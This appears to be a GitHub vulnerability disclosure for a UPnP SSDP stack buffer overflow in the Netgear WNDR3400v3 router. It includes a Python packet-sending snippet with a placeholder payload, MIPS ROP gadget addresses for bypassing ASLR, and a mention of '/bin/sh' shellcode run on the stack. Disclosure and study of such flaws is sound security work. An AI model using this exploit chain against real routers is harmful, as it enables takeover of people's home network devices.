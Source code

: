 # Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/default.aspx

**CVE**: Pending

**NVD**: Pending

**PoC Script**: [netgear_upnp_poc.py](https://github.com/reevesrs24/CVE/blob/master/Netgear_WNDR2400v3/upnp_stack_overflow/netgear_upnp_poc.py)
## Vulnerability detail ##

1. There exists a buffer overflow in the ssdp_http_method_check function in the upnpd binary.
![alt text](screenshots/ghidra_upnp.png)

2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = arbitrary_string

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 
![alt text](screenshots/memory_map.png)
4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
libc.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
libc.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this (My shellcode game is weak). Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    
![alt text](screenshots/sh.png)
6.  Much of this analysis was modeled after a great write up by Lyon Yang titled "Exploiting Buffer Overflows on MIPS Architectures". (https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)
